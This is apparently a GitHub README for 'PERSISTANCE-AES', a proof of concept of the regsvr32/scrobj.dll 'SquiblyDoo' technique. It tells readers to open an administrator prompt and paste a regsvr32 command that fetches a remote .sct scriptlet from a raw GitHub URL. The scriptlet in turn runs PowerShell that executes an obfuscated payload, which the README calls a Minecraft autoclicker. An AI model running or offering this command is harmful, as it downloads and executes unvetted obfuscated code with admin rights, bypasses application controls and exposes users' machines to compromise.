 <h1 align="center">PERSISTANCE-AES</h1>

---

### **Overview**
This is a **proof of concept** for the **regsvr32 execution payload** known as **SquiblyDoo**.  

- Executes an **obfuscated payload**  
- Payload is a **C# Autoclicker** designed for **Minecraft**

---

### **How It Works**
1. **regsvr32** and **scrobj.dll** both allow scriptlet functions to be ran  
2. The scriptlet runs a powershell script which runs the obfuscated payload  

---

### **How to Use**

1. Run **Command Prompt** as an **Administrator**.
2. Execute the following command:

   ```bash
   regsvr32 /s /n /u /i:https://raw.githubusercontent.com/elosdfir/persistance-aes/refs/heads/main/aes.sct scrobj.dll

---

<p align="center">✨ Credits to Casey Smith ✨</p>
